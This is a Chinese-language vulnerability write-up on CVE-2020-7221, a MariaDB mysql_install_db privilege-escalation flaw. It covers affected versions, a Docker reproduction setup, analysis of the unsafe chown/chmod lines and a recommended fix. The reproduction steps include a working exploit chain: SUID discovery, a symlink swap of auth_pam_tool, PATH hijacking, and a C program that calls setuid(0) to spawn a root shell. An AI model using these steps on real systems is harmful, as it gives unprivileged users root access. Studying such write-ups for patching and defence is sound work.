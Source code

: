 （CVE-2020-7221）Mariadb 提权漏洞
=================================

一、漏洞简介
------------

MariaDB
10.4.7到10.4.11中的mysql\_install\_db允许将特权从mysql用户帐户升级到root用户，因为chown和chmod的执行不安全，如对auth\_pam\_tool\_dir
/ auth\_pam\_tool的chmod
04755的symlink攻击所证明的那样。注意：这不会影响Oracle
MySQL产品，该产品以不同的方式实现mysql\_install\_db。

二、漏洞影响
------------

Mariadb 10.4.7到10.4.11

三、复现过程
------------

#### docker环境搭建：

1.  docker pull mariadb:10.4.8

2.  docker run -it 2ef19234ff46 /bin/bash

#### 漏洞分析

首先定位漏洞点。

    find / -name "mysql_install_db"

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId26.png)

在bash脚本上下文中，如果\$user被定义则能进入「配置不当」漏洞点。

    chown $user "$pamtooldir/auth_pam_tool_dir"

    chmod 0700 "$pamtooldir/auth_pam_tool_dir"

这里配置了auth\_pam\_tool\_dir目录的归属权和所有权，权限归属于\$user。
（这里是可控点之一）

    chown 0 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" 

    chmod 04755 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool"

这里配置了auth\_pam\_tool文件为0（root）所有权，4755文件权限（4为suid权限）。想要进入这个漏洞点需要\$srcdir变量值长度为0才能触发。

关于suid属性：

> SUID属性一般用在可执行文件上，当用户执行该文件时，会「临时拥有该执行文件的所有者权限」。一旦程序拥有SUID权限的话，运行该程序时会以最高权限运行。

##### 回溯 \$srcdir 与 \$user

1.  \$user

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId28.png)

在脚本传递args参数时可控制\$user变量。

1.  \$srcdir

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId29.png)

也在初始化操作时可控制变量，初始化时为空。

那么想要进入这个漏洞点需要\$srcdir为空，\$user需要设置值。

结合上文描述使用此命令才能触发漏洞点：

    ./mysql_install_db --user=mysql

#### 漏洞复现

寻找suid属性的程序

    find /* -perm -u=s -type f 2>/dev/null

搜索到的suid属性程序「auth\_pam\_tool」替换成我们的恶意suid程序。

    1. rm auth_pam_tool
    2. ln -s /root/pwn auth_pam_tool
    3. export PATH=.:$PATH
    4. ln -s /bin/bash ps

编写一个具有suid权限的恶意程序：

    #include <unistd.h>
    #include <stdlib.h>
    int main(void)
    {
        setuid(0);
        setgid(0);
        system("ps");
        return 0;
    }

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId31.png)

切换回root，在root权限下运行mysql\_install\_db脚本（触发修改chmod命令）

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId32.png)

再回到mysql用户权限下执行auth\_pam\_tool

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId33.png)

提权成功。

可以看到这个漏洞是由于suid与目录权限设置不当，才导致被提权利用的风险。建议在修复中设置auth\_pam\_tool\_dir目录权限为root所有：

    root:mysql  0750 /usr/lib/mysql/plugin/auth_pam_tool_dir

参考链接
--------

> <https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247486415&idx=1&sn=0e413fdfd22f21580e0c70251e53a7cb&chksm=fe7a2f57c90da64190913e4f40d5f854dcc0c794ac988ce667f1ba0d4a262575b5c4a67b65a1&mpshare=1&scene=1&srcid=&sharer_sharetime=1582037009796&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=36a0b0f21e7aca1c7ade662e9184d730b9617a817ebf64e5bbc6048142797fa6b31c917039b5d1308f1d16cf77ba9f43d541a1bd197ead9b66bb01969c4f1bf2c54e19862f1f9bc1f449495c27554e90&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AUm27aB0HayWjmPDBsXi7NU%3D&pass_ticket=VkgA7hk5gRtBGyr1o4%2Bh5PlNbfx095JODofk2U16AOMJewFkqv%2BeZkeziLm0G2um>
